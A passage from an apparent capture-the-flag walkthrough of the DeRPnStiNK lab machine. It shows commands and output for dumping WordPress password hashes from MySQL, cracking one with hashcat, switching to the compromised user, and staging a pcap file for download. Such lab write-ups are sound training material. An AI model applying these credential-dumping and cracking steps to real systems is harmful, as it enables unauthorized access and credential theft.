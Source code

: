 Then we list the credentials of the wordpress users.

```console
www-data@DeRPnStiNK:/var/www/html/weblog$ mysql -u root -p
mysql -u root -p     
Enter password: mysql
mysql> show databases;   
show databases;            
+--------------------+         
| Database           |              
+--------------------+       
| information_schema |        
| mysql              |     
| performance_schema |       
| phpmyadmin         |      
| wordpress          |   
+--------------------+         
5 rows in set (0.09 sec)
mysql> use wordpress;
Database changed                    
mysql> select user_login,user_pass from wp_users;
select user_login,user_pass from wp_users;
+-------------+------------------------------------+
| user_login  | user_pass                          |
+-------------+------------------------------------+
| unclestinky | $P$BW6NTkFvboVVCHU2R9qmNai1WfHSC41 |
| admin       | $P$BgnU3VLAv.RWd3rdrkfVIuQr6mFvpd/ |
+-------------+------------------------------------+
2 rows in set (0.00 sec)
```

We copy the password hash from unclestinky to crack it.

```console
root@kali:~$ echo '$P$BW6NTkFvboVVCHU2R9qmNai1WfHSC41' > mysql_hash.txt
root@kali:~$ zcat /usr/share/wordlists/rockyou.txt.gz > rockyou.txt
```

We run hashcat to crack the hash and after a minutes we have the password.

```console
root@kali:~$ hashcat -a 0 -m 400 mysql_hash.txt rockyou.txt
...
$P$BW6NTkFvboVVCHU2R9qmNai1WfHSC41:wedgie57
```

I switch to the **stinky** user, in the Documents directory I found the **derpissues.pcap** file, I move this file to the **/var/www/html/temporary** file to download it to the attacking machine for analyze it.

```console
www-data@DeRPnStiNK:/$ su stinky
su stinky
Password: wedgie57

stinky@DeRPnStiNK:/$ id
id
uid=1001(stinky) gid=1001(stinky) groups=1001(stinky)
stinky@DeRPnStiNK:~/Documents$ cp derpissues.pcap /var/www/html/temporary 
```
